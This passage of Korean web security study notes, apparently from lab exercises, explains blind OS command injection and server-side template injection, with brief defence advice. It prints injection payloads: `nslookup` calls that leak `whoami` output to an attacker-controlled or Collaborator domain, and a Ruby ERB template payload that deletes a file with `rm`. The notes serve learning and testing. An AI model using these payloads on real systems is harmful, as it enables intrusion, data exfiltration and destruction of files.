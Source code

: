 요청을 보내서, 결과를 볼 수 있다. 
 

**Exploiting blind OS command injection using out-of-band (OAST) techniques** 

```
& nslookup kgji2ohoyw.web-attacker.com & 
```

OAST로 외부 URL로 커맨드를 보낼 수도 있다. 
 

**예제**

```
email=x||nslookup+`whoami`.urp5ql7cnjowea8l6hr0uaarciia6z.burpcollaborator.net|| 
```

pull하면, whoami커맨드에 대한 결과를 **DNS query**에서 확인가능 

 

**Ways of injecting OS commands** 

운영체제마다 다름. 

&, &&, || 같은 커맨드 분리기도 다름. 

\`command`, $(command) 커맨드 삽입도 다름. 



## 4.2. 방어법

어플리케이션 레이어 수준에서 커맨드를 쓰지 않는 것이 최고의 예방법 

써야한다면 input validation을 빡시게 
 
 

 # 5. SSTi

**# Basic server-side template injection** 

사이트에 있는 물건을 누르니, 메세지가 표시가 된다. 
근데, 그 메세지가 URL에 params로 똑같이 있다. 즉 URL을 읽어서 웹상에 띄우는 것이다. 이걸로 URL을 통해 injection을 할 수 있다. 

해당 사이트가 Ruby ERB 템플릿엔진으로 빌드가 되어있는 것을 알았으면(wappalyzer같은걸 써서) 해당 언어의 다큐먼트를 읽고, 코드를 inject한다. 

`?message=<%=999%>`를 하면 999가 표시된다. 

```
?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

위의 스크립트를 붙여 보내면, 해당 코드가 실행되면서 디렉토리를 삭제할 수 있다. 

<img src='./images/theory/st-1.png'>
